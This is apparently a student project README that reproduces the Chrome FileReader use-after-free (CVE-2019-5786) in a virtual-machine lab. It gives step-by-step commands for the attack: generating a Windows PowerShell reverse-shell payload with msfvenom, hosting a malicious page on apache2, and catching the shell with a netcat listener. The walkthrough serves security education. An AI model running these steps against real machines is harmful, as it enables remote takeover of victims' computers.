

# CMPT733-Group9

**Members**: Yogesh Chaudhary, Haolin Ye, Madhvik Patel

**Topic**: Reproducing CVE-2019-5786 chrome Filereader Use-After-Free vulnerability


### Environment

- VM for Windows7 (32-bit) with the vulnerable chrome version installed: [Link](https://drive.google.com/file/d/1nraxRiuc1U02qz4ODMIiIuF5ftgp15Wl/view?usp=sharing)
- A Linux VM (such as Ubuntu 16.04)

If you want to have a fresh build, here are the resources you need:

- VM file for Windows 7 (32-bit) from Microsoft: [Link](https://developer.microsoft.com/en-us/microsoft-edge/tools/vms/)
- Google_Chrome (v72.0.3626.119): [Link](https://drive.google.com/file/d/128dxHVSc-pwEI0Rnyl_Hadfait1xDuNf/view?usp=sharing)

You should put these two VMs in the same LAN for convenience and make sure they can find each other. If you are using Virtualbox, select "NAT Network"; If you are using VMWare, select "NAT".




### How to run the exploit

#### Setups on attacker side (Linux VM)

You need to host the malicious website on the Linux VM so make sure you have apache2 installed. You can verify if the service is running by following command on Linux VM:

```
systemctl status apache2
```


Firstly, you need to generate your own shellcode because we need to include attacker VM's ip address in the shellcode. You can check the ip address on the Linux VM by `ifconfig`. Then, use a very popular tool called [MsfVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) to generate the shellcode and encode it with percent-encoding. Execute the following command by replacing YOUR_IP with your Linux VM's ip address.

```
msfvenom -p windows/powershell_reverse_ tcp LHOST=YOUR_IP LPORT=4449 PayloadBindPort=4449 -a x86 --platform windows -f js_le -e generic/none
```

Then, open `index.html` and search for `shellcode` variable. Replace it with the shellcode you just generated.


Secondly, move the malicious website (index.html) to the web root folder of apache2

```
sudo mv index.html /var/www/html
```


Thirdly, start a local listener using netcat and cross your finger

```
nc -lvnp 4449
```


#### On Windows7 VM

You need to open cmd and run chrome.exe out of sandbox environment with the flag `--no-sandbox`. Here are the commands:

```
cd "C:\Program Files\Google\Chrome\Application"

chrome.exe --no-sandbox
```


Finally, visit the malicious website hosted on Linux VM. For example, if the ip address of your Linux MV is 10.0.2.4, you will visit the url `http://10.0.2.4`


If the exploitation is successful, you can see now you have a reverse shell on Linux VM. If the malicious page is crashed, simply refresh the page and try again.


### Video Demo

You can also check our demo [here](https://youtu.be/Wq8kT_a6ZLQ) on YouTube.